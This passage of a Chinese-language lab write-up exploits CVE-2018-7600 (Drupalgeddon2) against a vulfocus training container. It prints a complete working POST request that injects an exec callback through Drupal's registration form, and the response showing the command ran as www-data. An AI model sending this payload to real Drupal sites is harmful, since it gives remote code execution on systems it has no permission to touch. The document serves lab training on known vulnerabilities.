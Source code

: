 
## 漏洞利用

对入口靶标进行攻击：
启动容器 vulfocus/drupal-cve_2018_7600 ，打开网页以后进行抓包，发送
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.56.119:37124
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
得到回复：
```
HTTP/1.1 200 OK
Date: Wed, 21 May 2025 05:26:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 209
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```
返回结果中包含www-data用户权限信息，证明命令执行成功
![](img/利用得到回复.png)

